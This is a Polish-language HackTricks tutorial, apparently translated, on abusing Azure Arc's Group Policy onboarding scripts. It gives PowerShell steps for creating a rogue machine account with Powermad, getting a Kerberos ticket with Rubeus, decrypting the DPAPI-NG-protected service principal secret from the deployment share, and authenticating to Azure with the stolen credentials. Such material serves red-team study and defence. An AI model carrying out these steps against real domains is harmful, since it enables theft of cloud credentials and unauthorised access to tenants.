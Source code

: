 # Az - Azure Arc Wrażliwy Skrypt Wdrażania GPO

<details>

<summary><strong>Nauka hakowania AWS od zera do bohatera z</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Inne sposoby wsparcia HackTricks:

- Jeśli chcesz zobaczyć swoją **firmę reklamowaną w HackTricks** lub **pobrać HackTricks w formacie PDF**, sprawdź [**PLANY SUBSKRYPCYJNE**](https://github.com/sponsors/carlospolop)!
- Zdobądź [**oficjalne gadżety PEASS & HackTricks**](https://peass.creator-spring.com)
- Odkryj [**Rodzinę PEASS**](https://opensea.io/collection/the-peass-family), naszą kolekcję ekskluzywnych [**NFT**](https://opensea.io/collection/the-peass-family)
- **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
- **Podziel się swoimi sztuczkami hakowania, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

### Identyfikacja Problemów

Azure Arc umożliwia integrację nowych serwerów wewnętrznych (serwery dołączone do domeny) do Azure Arc za pomocą metody Group Policy Object. W tym celu Microsoft udostępnia zestaw narzędzi do wdrażania niezbędny do rozpoczęcia procedury dołączania. Wewnątrz pliku ArcEnableServerGroupPolicy.zip znajdują się następujące skrypty: DeployGPO.ps1, EnableAzureArc.ps1 i AzureArcDeployment.psm1.

Podczas wykonywania skryptu DeployGPO.ps1 następujące czynności są wykonywane:

1. Tworzy GPO do dołączania serwerów Azure Arc w lokalnej domenie.
2. Kopiuje skrypt dołączania EnableAzureArc.ps1 do określonej udostępnionej sieci stworzonej dla procesu dołączania, która zawiera również pakiet instalacyjny systemu Windows.

Podczas uruchamiania tego skryptu administratorzy systemu muszą podać dwie główne parametry: **ServicePrincipalId** i **ServicePrincipalClientSecret**. Dodatkowo wymagane są inne parametry, takie jak domena, FQDN serwera hostującego udział, oraz nazwa udziału. Dodatkowe szczegóły, takie jak identyfikator najemcy, grupa zasobów i inne niezbędne informacje, muszą również zostać podane skryptowi.

Zaszyfrowany sekret jest generowany w katalogu AzureArcDeploy na określonym udziale za pomocą szyfrowania DPAPI-NG. Zaszyfrowany sekret jest przechowywany w pliku o nazwie encryptedServicePrincipalSecret. Dowody na to można znaleźć w skrypcie DeployGPO.ps1, gdzie szyfrowanie jest wykonywane poprzez wywołanie ProtectBase64 z $descriptor i $ServicePrincipalSecret jako dane wejściowe. Deskryptor składa się z SID-ów grup Domain Computer i Domain Controller, zapewniając, że ServicePrincipalSecret może być odszyfrowany tylko przez grupy zabezpieczeń Domain Controllers i Domain Computers, jak zaznaczono w komentarzach skryptu.
```powershell
# Encrypting the ServicePrincipalSecret to be decrypted only by the Domain Controllers and the Domain Computers security groups
$DomainComputersSID = "SID=" + $DomainComputersSID
$DomainControllersSID = "SID=" + $DomainControllersSID
$descriptor = @($DomainComputersSID, $DomainControllersSID) -join " OR "
Import-Module $PSScriptRoot\AzureArcDeployment.psm1
$encryptedSecret = [DpapiNgUtil]::ProtectBase64($descriptor, $ServicePrincipalSecret)
```
### Wykorzystanie

Mamy następujące warunki:

1. Udało nam się przeniknąć do wewnętrznej sieci.
2. Mamy możliwość utworzenia lub przejęcia konta komputera w ramach Active Directory.
3. Odkryliśmy udział sieciowy zawierający katalog AzureArcDeploy.

Istnieje kilka metod uzyskania konta komputera w środowisku AD. Jedną z najczęstszych jest wykorzystanie limitu konta komputera. Inną metodą jest skompromitowanie konta komputera poprzez podatne ACL lub różne inne błędy konfiguracyjne.
```powershell
Import-MKodule powermad
New-MachineAccount -MachineAccount fake01 -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose
```
Po uzyskaniu konta maszyny możliwe jest uwierzytelnienie przy użyciu tego konta. Możemy użyć polecenia runas.exe z flagą netonly lub skorzystać z opcji pass-the-ticket z użyciem Rubeus.exe.
```powershell
runas /user:fake01$ /netonly powershell
```

```powershell
.\Rubeus.exe asktgt /user:fake01$ /password:123456 /prr
```
Poprzez przechowywanie TGT dla naszego konta komputerowego w pamięci, możemy użyć poniższego skryptu do odszyfrowania tajnego klucza głównego usługi.
```powershell
Import-Module .\AzureArcDeployment.psm1

$encryptedSecret = Get-Content "[shared folder path]\AzureArcDeploy\encryptedServicePrincipalSecret"

$ebs = [DpapiNgUtil]::UnprotectBase64($encryptedSecret)
$ebs
```
Alternatywnie, możemy użyć [SecretManagement.DpapiNG](https://github.com/jborean93/SecretManagement.DpapiNG).

W tym momencie możemy zebrać pozostałe informacje potrzebne do połączenia z Azure z pliku ArcInfo.json, który jest przechowywany na tym samym udostępnionym zasobie sieciowym co plik encryptedServicePrincipalSecret. Ten plik zawiera szczegóły takie jak: TenantId, servicePrincipalClientId, ResourceGroup i inne. Z tymi informacjami możemy użyć Azure CLI do uwierzytelnienia jako skompromitowany podmiot usługi.

## Referencje

- [https://xybytes.com/azure/Abusing-Azure-Arc/](https://xybytes.com/azure/Abusing-Azure-Arc/)
